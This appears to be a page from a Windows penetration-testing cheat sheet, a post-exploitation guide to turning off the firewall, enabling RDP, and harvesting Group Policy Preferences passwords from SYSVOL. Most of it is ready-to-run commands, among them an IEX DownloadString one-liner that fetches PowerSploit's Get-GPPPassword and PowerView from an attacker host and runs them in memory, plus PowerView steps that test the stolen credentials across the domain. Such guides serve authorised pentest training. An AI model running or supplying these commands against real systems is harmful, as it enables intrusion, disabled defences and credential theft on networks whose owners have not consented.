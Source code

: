 Firewall turned on?
```
netsh advfirewall firewall dump
netsh firewall show state
netsh firewall show config
netsh firewall set opmode disable
```
List firewall's blocked ports

```
$f=New-object -comObject HNetCfg.FwPolicy2;$f.rules |  where {$_.action -eq "0"} | select name,applicationname,localports
```

Enable RDP if you want
```
reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0
netsh firewall set service remoteadmin enable
netsh firewall set service remotedesktop enable
```
### Group Policy Preferences
If the box is part of a domain and the user account you have can read System Volume Information, then check for files with passwords. Start by checking the environment variables for the IP-address of the domain controller if that's unclear. Output environment-variables by typing```set```and look for the following:
```
LOGONSERVER=\\NAMEOFSERVER
USERDNSDOMAIN=WHATEVER.LOCAL
```
Then look up the IP-address
```
nslookup nameofserver.whatever.local
```

Now we mount it and search for the groups.xml file
```
net use z: \\192.168.1.101\SYSVOL
z:
dir Groups.xml /s
```
Then just decrypt any found passwords in kali with the gpp-decrypt tool.

You can also do this with powerview and the get gpp-password scripts from powershell empire.
https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1
https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1

Here in powershell we load them into memory

```
IEX(New-Object Net.WebClient).DownloadString("http://10.0.0.100/Get-GPPPassword.ps1")
IEX(New-Object Net.WebClient).DownloadString("http://10.0.0.100/powerview.ps1")
```
Then run ```Get-GPPPassword```and feed any listed GUID's setting administrator passwords to powerview.ps1 like so. This will check any found credentials against other domain machines.
```
Get-NetOU -GUID "{4C86DD57-4040-41CD-B163-58F208A26623}" | %{ Get-NetComputer -ADSPath $_ }
```
